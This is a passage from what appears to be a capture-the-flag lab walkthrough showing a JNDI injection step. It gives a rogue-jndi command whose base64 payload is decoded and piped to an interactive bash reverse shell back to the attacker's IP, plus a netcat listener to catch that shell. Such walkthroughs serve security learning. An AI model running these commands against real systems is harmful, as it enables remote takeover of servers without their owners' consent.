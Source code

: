 ![rogue-jndi](./Screenshots/unifiedjndi3.png)

With our `Base64` output, we'll build command in `rogue-jndi`:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, {your base64 hash}}|{base64,-d}|{bash,-i}" --hostname "{your tun0 ip}"
```

#### Disclaimer

Remember to execute it from the right path.

![rogue-jndi](./Screenshots/unifiedjndi4.png)

Good.

#### Disclaimer

Remember to execute it from the right path.

### Netcat

Let's open another terminal to capture the `reverse shell`.

Type:

```
nc -lvnp {port you have chosen} 
```

![Netcat](./Screenshots/unifiednetcat.png)
